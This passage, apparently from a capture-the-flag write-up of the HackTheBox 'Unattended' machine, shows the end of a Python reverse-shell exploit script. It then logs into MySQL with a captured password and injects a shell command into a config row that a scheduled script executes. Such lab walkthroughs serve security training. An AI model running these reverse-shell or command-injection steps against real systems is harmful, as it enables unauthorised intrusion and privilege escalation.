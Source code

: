 ```py
    rhost = args.target
    lhost = args.ip
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the rev shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

# www-data -> Guly

Now we connect on the mysql with the credentials we grab earlier

```sh
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2011:28:21.png)

```sql
use neddy;
show tables;
select * from config;
```

Interesing set on row 86 checkrelease

```
/home/guly/checkbase.pl;/home/guly/checkplugins.pl;
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2011:29:45.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2011:29:59.png)

I can't read this script, but seems to be executing it, so if I try to add some command that I can try to see if it's being someway executed

```
update config set option_value = "'id > /var/www/html/test.txt'" where id = 86;
select * from config where id = 86;
```

One minute after it was reseted to the default

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-24-HackTheBox-Unattended/2021-09-24-HackTheBox-Unattended%2003:24:20.png)

And we see that the file test.txt was created
